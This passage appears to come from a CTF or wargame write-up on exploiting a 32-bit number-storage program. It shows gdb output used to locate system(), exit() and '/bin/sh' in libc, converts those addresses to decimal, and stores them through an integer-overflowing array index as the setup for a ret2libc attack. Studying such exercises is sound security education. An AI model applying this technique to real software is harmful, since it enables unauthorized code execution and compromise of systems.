 ```
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find  0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb)
```

Our address :

```
system() = 0xf7e6aed0;
exit() = 0xf7e5eb70;
"/bin/sh" = 0xf7f897ec;

In decimal :

system() = 4159090384;
exit() = 4159040368;
"/bin/sh" = 4160264172;

```

Lets try inserting those addresses in the array, i dont expect it work now, since i dont have the control of the EIP.

```sh
Input command: store
 Number: 4159090384
 Index: 1073741824
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 1
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 2
 Completed store command successfully
Input command: read
 Index: 0
 Number at data[0] is 4159090384
 Completed read command successfully
Input command: read
 Index: 1
 Number at data[1] is 4159040368
 Completed read command successfully
Input command: read
 Index: 2
 Number at data[2] is 4160264172
 Completed read command successfully
Input command:
```
